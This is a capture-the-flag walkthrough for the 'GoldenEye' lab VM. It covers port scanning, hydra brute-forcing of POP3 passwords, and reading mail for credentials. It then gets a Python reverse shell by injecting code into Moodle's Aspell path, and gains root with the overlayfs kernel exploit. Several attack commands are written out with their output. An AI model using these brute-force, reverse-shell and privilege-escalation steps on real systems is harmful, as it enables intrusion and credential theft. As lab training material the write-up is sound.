








# GoldenEye

## Description

Bond, James Bond. A guided CTF.

## [Task 1] Intro & Enumeration

This room will be a guided challenge to hack the James Bond styled box and get root.

Credit to creosote for creating this VM. This machine is used here with the explicit permission of the creator <3

So.. Lets get started!

### 1.2 - Use nmap to scan the network for all ports. How many ports are open?

Let's run a full port Nmap scan:

~~~
PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
55006/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: RESP-CODES CAPA SASL(PLAIN) AUTH-RESP-CODE PIPELINING USER UIDL TOP
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: TOP CAPA AUTH-RESP-CODE STLS USER UIDL PIPELINING SASL(PLAIN) RESP-CODES
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
~~~

Open ports: `4`

### 1.3 - Take a look on the website, take a dive into the source code too and remember to inspect all scripts!

Let's head to the webpage. The main page runs a js file and types a text:

We can discover the js file from the source code:

~~~html
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ curl -s "http://$IP/"
<html>
<head>
<title>GoldenEye Primary Admin Server</title>
<link rel="stylesheet" href="index.css">
</head>

	&#32;

	
</html>
~~~

Let's take a look at the js file:

#### terminal.js
~~~js
var data = [
  {
    GoldenEyeText: " Severnaya Auxiliary Control Station ****TOP SECRET ACCESS**** Accessing Server Identity Server Name:.................... GOLDENEYE  User: UNKNOWN Naviagate to /sev-home/ to login"
  }
];

//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;

 
  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `&#32;`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
~~~

### 1.4 - Who needs to make sure they update their default password?

We can see some comments which are for user `Boris` to update his default password. We also have the encoded password.

Answer: `boris`

### 1.5 - Whats their password?

The password is encoded with HTML entity. I used [CyberChef](https://gchq.github.io/CyberChef/) to decode it.

Password: `InvincibleHack3r`

### 1.6 - Now go use those credentials and login to a part of the site.

We were given a directory in the main page to login from under the name of `/sev-home/`. We can login using the creds: `boris:InvincibleHack3r`

## [Task 2] Its mail time...

Onto the next steps.. 

### 2.1 - Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable?

Now let's take a step back and check the other services. Let's head to pop3 service (Post Office Protocol) on port 55007. I used `telnet` to connect to it:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ telnet $IP 55007
Trying 10.10.102.223...
Connected to 10.10.102.223.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
quit
+OK Logging out
Connection closed by foreign host.
~~~

unfortunately the creds we obtained earlier, are not valid.

### 2.2 - If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? Whats their new password?

Let's try to brute-force the password. I used `hydra` and `fasttrack` wordlist for user `boris` on pop3:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007/ 
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-31 10:10:17
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.102.223:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.102.223   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-31 10:12:58

~~~

Boris's pop3 password: `secret1!`

I don't know if we need or not, but I found `natalya`'s password, the other user that we know:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-31 10:13:09
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.102.223:55007/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 158 to do in 00:03h, 16 active
[55007][pop3] host: 10.10.102.223   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-31 10:15:43
~~~

The password for user `natalya` is `bird` if we need it.

### 2.3 - Inspect port 55007, what services is configured to use this port?

We can use `telnet` to connect to it.

### 2.4 - Login using that service and the credentials you found earlier.

I connected to pop3 as user `boris` using `telnet`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ telnet $IP 55007
Trying 10.10.102.223...
Connected to 10.10.102.223.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
~~~

No answer needed.

### 2.5 - What can you find on this service?

I used `LIST` command to list the messages, which are basicly emails:

~~~
LIST
+OK 3 messages:
1 544
2 373
3 921
.
~~~

Answer: `emails`

### 2.6 - What user can break Boris' codes?

I used `RETR` command to read the emails. We can see an email from user `natalya` that says, she could break boris' codes:

~~~
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id C3F2B454B1
	for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
~~~

Answer: `natalya`

### 2.7 - Using the users you found on this service, find other users passwords

Let's login as user `natalya` to gather more info. We can find some credentials in her second email which is from `root`:

~~~
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
~~~

* Username: xenia
* Password: RCP90rulez!

### 2.8 - Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

Wasn't able to find `xenia`'s password, so we move on and if we need it, we would find a way. No answers needed for this one.

## [Task 3] GoldenEye Operators Training

Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it.

If you're on Linux edit your "/etc/hosts" file and add:

< machines ip > severnaya-station.com

If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

### 3.2 - Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir

After adding the IP to your hosts file, you can navigate to this URL. After visiting the URL, we face this page:

### 3.3 - Try using the credentials you found earlier. Which user can you login as?

On the top right corner, there is a link to the login page. I used `xenia`'s creds and I logged in.

Logged in as: `xenia`

### 3.4 - Have a poke around the site. What other user can you find?

After logging in, I started looking around and found a section for messages. In the message we can see the username of the sender and the name.

Username: `doak`

### 3.5 - What was this users password?

Now that we have a username, we can try to brute-force the password for user `doak`. I used `hydra` and `fasttrack` on pop3 service:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-01 10:34:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.102.223:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.102.223   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
~~~

Doak's password: `goat`

### 3.6 - Use this users credentials to go through all the services you have found to reveal more emails.

I used the creds I found, for pop3 service and logged in.

### 3.7 - What is the next user you can find from doak?

After logging in and listing the emails, there was only one email. Let's see the content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ telnet $IP 55007
Trying 10.10.102.223...
Connected to 10.10.102.223.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 97DC24549D
	for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

~~~

Great. We found a username and a password to access the web portal.

Username: `dr_doak`

### 3.8 - What is this users password?

Password: `4England!`

### 3.9 - Take a look at their files on the moodle (severnaya-station.com)

I used the creds to login to portal as `dr_doak`. I found a file called `s3cret.txt` in `My Profile > My private files`. Let's read it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ cat s3cret.txt     
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
~~~

As you can see, there is a link to a jpg file: `/dir007key/for-007.jpg`

### 3.10 - Download the attachments and see if there are any hidden messages inside them?

I downloaded the jpg file and checked its meta data using `exiftool` and found a base64 encoded string in `Image Description` field:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ exiftool for-007.jpg        
ExifTool Version Number         : 12.32
File Name                       : for-007.jpg
Directory                       : .
File Size                       : 15 KiB
File Modification Date/Time     : 2018:04:24 20:40:02-04:00
File Access Date/Time           : 2021:11:01 11:29:29-04:00
File Inode Change Date/Time     : 2021:11:01 11:29:23-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==  <--------------
Make                            : GoldenEye

[REDACTED]

~~~

Let's decode it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d                                           
xWinter1995x!
~~~

It is likely the admin's password: `xWinter1995x!`

### 3.11 - Using the information you found in the last task, login with the newly found user.

I used the creds on the web portal and they worked. We are logged in as admin now.

* Username: `admin`
* Password: `xWinter1995x!`

### 3.12 - As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

#### Take a look into Aspell, the spell checker plugin.

Hint: Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and "spell check it".

Search for **"spell"** and you'll see this:

Now we can execute codes. Let's start a listener first:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now replace the `Path to aspell` with the following code which is a python reverse shell and chenge the `Spell engine` to `PSpellShell` (Remember to add your IP):

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

Now save it and go to `Navigation > My profile > Blog > Add a new entry` and click on `Toggle spellchecker`:

Now we have a reverse shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.104] from (UNKNOWN) [10.10.102.223] 33986
bash: cannot set terminal process group (1059): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$
~~~

## [Task 4] Privilege Escalation

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

* Download the linuxprivchecker file locally
* Navigate to the file on your file system
* Do: python -m SimpleHTTPServer 1337 (leave this running)
* On the VM you can now do: wget < your IP >/< file >.py

OR

Enumerate the machine manually.

### 4.2 - Whats the kernel version?

Run `uname -a` and you'll get the kernel info:

~~~
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

Kernel version: `3.13.0-32-generic`

### 4.3

This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

* Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWN* flags.
* Mount an overlayfs using /bin as lower filesystem, some temporary directories a* upper and work directory.
* Overlayfs mount would only be visible within user namespace, so let namespac* process change CWD to overlayfs, thus making the overlayfs also visible outsid* the namespace via the proc filesystem.
* Make su on overlayfs world writable without changing the owner
* Let process outside user namespace write arbitrary content to the file applying * slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
* Execute the modified su binary

You can download the exploit from here: https://www.exploit-db.com/exploits/37292

I searched for the exploit using `searchsploit`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ searchsploit kernel 3.13 overlayfs
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37293.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

We are going to use the c script.

### 4.4 - Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!

#### What development tools are installed on the machine?

Now we need to transfer the exploit to the target machine. Start a python server and use `wget` on the target machine and transfer it.

Next I tried to compile the exploit, but `gcc` isn't available on the target machine, but `cc` is:

~~~
www-data@ubuntu:/$ which cc
/usr/bin/cc
~~~

Let's modify the code to replace `gcc` with `cc`. I used `sed` on the traget machine or you can change it using an IDE on your machine and reupload it.

~~~
www-data@ubuntu:/tmp$ sed -i "s/gcc/cc/g" exploit.c
~~~

Now we can compile it:

~~~
www-data@ubuntu:/tmp$ cc exploit.c -o exploit
exploit.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
exploit.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
exploit.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
exploit.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
exploit.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
~~~

There ware warnings but don't worry, it works. Just run it and now we are root:

~~~
www-data@ubuntu:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
~~~

### 4.5 - What is the root flag?

Now navigatet to `/root` and read the flag file:
~~~
# cd /root
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

~~~

By visiting the URL we are shown a video and a congrats message:

Root flag: `568628e0d993b1973adc718237da6e93`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )